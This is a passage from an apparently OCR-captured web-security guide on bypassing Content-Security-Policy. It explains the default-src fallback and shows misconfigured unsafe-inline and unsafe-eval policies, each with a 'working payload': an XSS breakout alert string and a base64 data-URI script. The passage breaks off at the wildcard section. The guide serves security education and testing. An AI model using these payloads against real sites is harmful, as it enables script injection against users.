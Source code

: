 This is because `img-src` is set to `self`, since the directive is not defined in the CSP, it will by default follow `default-src`.

This happen because `img-src` is set to `self` as directives are not defined in CSP will be following `default-src` by default. But you must remember that the next directives do not follow `default-src` by default:
- base-uri
- form-action
- frame-ancestors
- plugin-types
- report-uri
- sandbox

# Bypassing techniques

Several online tools can be used to find bypassing and are very helpful:

- [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/)
- [https://cspvalidator.org/](https://cspvalidator.org/)

## unsafe-inline

```http
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-inline' https://*; child-src 'none';
```

This policy will allow inline scripting. The reason behind that is the usage of `unsafe-inline` source as a value of `script-src` directive. Working payload:

```html
"/><script>alert(1337);</script>
```

## unsafe-eval

```http
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-eval' data: http://*; child-src 'none';
```

This is a misconfigured CSP policy due to usage of `unsafe-eval`, working payload: 

```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

## Wildcard in script-src

```http
Content-Security-Policy: script-src 'self' https://facebook.com https://google.com https: data *; child-src 'none';
```

This is a misconfigured CSP policy due to usage of a wildcard in `script-src`, working payloads:
